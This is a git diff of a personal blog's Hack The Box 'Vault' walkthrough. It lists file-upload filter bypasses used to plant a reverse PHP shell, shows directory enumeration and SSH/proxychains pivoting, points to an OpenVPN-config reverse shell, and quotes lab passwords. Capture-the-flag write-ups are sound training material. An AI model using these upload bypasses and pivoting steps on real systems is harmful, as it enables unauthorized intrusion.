

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 1062 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
Update: vault

````diff
--- a/_posts/2018-11-25-HTB-vault.md
+++ b/_posts/2018-11-25-HTB-vault.md
@@ -33,14 +33,13 @@ Task Completed
 
 ```
 
-<img src="/assets/images/index_vault.png" style="width: 50%">
+<img src="/assets/images/index_vault.png" style="width: 70%">
 
-After few minutes of searching and guessing, you should arrive at this login page.
+After a few enumerations, you should have quickly reached this login page. If you didn't, you should consider enumerating recursevily directories.
 
 <img src="/assets/images/login_vault.png" style="width: 35%">
 
-> Trying to pass this login page was not the solution. After a while I told my self, what if the index page is saying right for once. So kept enumerating and found new files.
-
+> Trying to pass this login page was not the solution. After a while I told my self, what if the index page is saying right. So kept enumerating and found new files.
 
 ```
 python3 dirsearch.py -u http://10.10.10.109/sparklays/design -w common.txt -e html,php,txt -f
@@ -50,7 +49,15 @@ python3 dirsearch.py -u http://10.10.10.109/sparklays/design -w common.txt -e ht
 (...)
 ```
 
-This page was giving access to a file upload module, but it had some extension restriction. Replacing the reverse PHP shell extension for `.php5` and that's it, you got access to the ubuntu host as `www-data`.
+This page gave access to a file upload module with restrictions. Hence, impossible to tell the server to execute commands through a script directly. I remembered few [technics](https://www.owasp.org/index.php/Unrestricted_File_Upload) for bypassing this type of server side control:
+
++ Adding a double extension: `myFile.jpg.php`
++ Changing letters to their capital forms: `myFile.PhP`
++ Using short name (for Windows servers)
++ Dropping the string after the first extension by using the `NULL` character `0x00`: `myFile.jpg0x00.php`
++ Finding missed extension (e.g. `.php5`, `.pht`, `.phtml`, `.shtml`, `.asa`, `.cer`, `.asax`, `.swf`, or `.xap`)
+
+> Replacing the reverse shell extension for the missed extension `.php5` gave access to the ubuntu host as `www-data`.
 
 PrivEsc
 =======
@@ -83,9 +90,7 @@ udp6       0      0 :::48208                :::*
 
 Note that local IP adress `192.168.122.1:53` is on another network.
 
-> Since nmap was disabled for the `www-data` user, I try to run `socat` and `ncat` in order to be able to do port forwarding, but they wasn't installed.
-
-Looking for something else, something like some broken files left on the desktop that would aloud you to pivote trough ssh! `#EPIC_FAIL`
+Since nmap was disabled for the `www-data` user, I try to run `socat` and `ncat` in order to be able to do port forwarding, but they wasn't installed. Then it took a second to find the files left on the desktop, which allowed me to rotate through ssh!
 
 ```bash
 cat key
@@ -101,7 +106,6 @@ Firewall - 192.168.122.5
 The Vault - x
 ```
 
-
 ```
 ssh -fNtD 9050 dave@10.10.10.109 [-L 127.0.0.1:8888:192.168.122.4:80]
 proxychains firefox 192.168.122.4
@@ -109,10 +113,7 @@ proxychains firefox 192.168.122.4
 
 <img src="/assets/images/vault_vpn.jpg" style="width:30%">
 
-> And it's exactly at this moment when I received a call from Mom asking me what I was doing and I answered: Hmmmmm... not much, hacking VPN Mom.
-
-
-This [medium article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) defines well what is what and how to pop a shell out of it!
+This [medium article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) defines well what it is and how it's possible to pop a shell out of an OpenVPN config file, so I wont go in details.
 
 ```
 remote 192.168.122.1
@@ -130,12 +131,13 @@ dav3gerous567
 
 cat user*
 a4***************************3
-
 ```
 
 > At this point you could have change the root password and connect with ssh using these credentials and found alex's `.bash_history` where you would have seen that he was pinging the `192.168.5.2` IP adress. But no chance, this adress was no longuer reachable.
 
-All the traffic to the Vault was passing trough the  `192.168.122.5` firewall. Bypassing firewall was easy. All you had to do was to add another IP adress to the same interface and remove this routing. Then, running a basic nmap scan on this target to unveil the `987/tcp` port wich was exposing a ssh service that were using the same cred then the DNS box.
+All the traffic to the Vault was passing trough the  `192.168.122.5` firewall.
+
+Bypassing firewall was easy. All I had to do was adding another IP adress to the same interface and remove that routing. Then, running a basic scan on this target to unveil the `987/tcp` port wich was exposing a ssh service that was using the same credential then the DNS box.
 
 ```
 root@DNS:# route
@@ -160,7 +162,7 @@ PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.
 Welcome to the Vault!
 =====================
 
-To complete the box, you had to `scp` the `root.txt.gpg` back to the ubuntu box and pass the key `itscominghome`.
+To complete the box, you had to `scp` the `root.txt.gpg` back to the ubuntu box and pass the key `itscominghome`. ;)
 
 ```
 You need a passphrase to unlock the secret key for
````
Also changed, not shown: 3 other files.
